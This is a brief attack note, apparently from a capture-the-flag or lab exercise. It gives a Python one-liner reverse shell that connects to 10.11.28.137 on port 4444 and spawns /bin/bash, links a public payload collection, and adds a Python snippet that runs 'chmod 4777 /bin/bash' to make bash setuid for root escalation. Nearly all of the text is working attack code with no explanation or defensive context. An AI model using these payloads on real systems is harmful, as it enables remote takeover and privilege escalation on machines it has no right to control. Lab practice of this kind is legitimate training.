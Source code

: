 One liner reverse shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("`10.11.28.137`",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

https://github.com/swisskyrepo/PayloadsAllTheThings

Python code:
```python
import os
os.system('chmod 4777 /bin/bash')
```